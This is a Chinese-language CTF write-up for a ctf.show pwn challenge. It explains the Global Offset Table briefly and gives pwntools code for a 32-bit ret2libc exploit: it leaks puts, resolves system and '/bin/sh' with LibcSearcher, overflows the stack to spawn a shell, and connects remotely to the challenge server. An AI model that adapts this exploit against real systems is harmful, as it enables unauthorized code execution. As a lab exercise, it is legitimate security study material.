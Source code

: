 

另知：

- `got`（Global Offset Table 的缩写）即全局偏移表。在动态链接的程序中，`GOT`用于存储外部函数（如`libc`中的函数）在内存中的实际地址。当程序调用一个外部函数时，它会通过`GOT`找到该函数的实际运行时地址。这是因为在程序编译时，外部函数的地址是未知的（因为动态链接库的加载地址可能会变化），`GOT`就起到了在运行时解析函数真实地址的作用。

```python
puts_plt = base_addr + elf.sym['puts']
puts_got = base_addr + elf.got['puts']

ebx = base_addr + 0x1fc0
payload0 = b'a' * (132) + p32(ebx) + b'a'*4 + p32(puts_plt) + p32(main_real_addr)+p32(puts_got)
p.sendline(payload0)
```



获取puts的地址

```python
puts_addr = u32(p.recv(4))    
```



一一找到内存中的地址：

```python
libc = LibcSearcher('puts', puts_addr)      
libc_base = puts_addr - libc.dump('puts')   
system_addr = libc_base + libc.dump('system') 
binsh_addr = libc_base + libc.dump('str_bin_sh')
ctfshow_addr = base_addr + elf.sym['ctfshow']
```



直接溢出到返回函数，溢出到内存中的system函数

```python
payload = b'a' * (0x88 + 0x04) + p32(system_addr) + p32(ctfshow_addr) + p32(binsh_addr)
p.sendline(payload)
```

中间加上 `p32(ctfshow_addr)` 是为了确保在执行 `system` 函数后，程序能正常返回到一个合适的位置。





这里writeup使用puts做



```python
# *- coding: utf-8 -*-
from pwn import * 
from LibcSearcher import * 
context(arch='i386',os='linux',log_level='debug')
ip = "pwn.challenge.ctf.show"
port = 28135

p = remote(ip,port)  
elf = ELF('./pwn')

main_real_addr = int(p.recv().strip(), 16)

base_addr = main_real_addr - elf.sym['main']   

puts_plt = base_addr + elf.sym['puts']
puts_got = base_addr + elf.got['puts']

ebx = base_addr + 0x1fc0
payload0 = b'a' * (132) + p32(ebx) + b'a'*4 + p32(puts_plt) + p32(main_real_addr)+p32(puts_got)
p.sendline(payload0)

```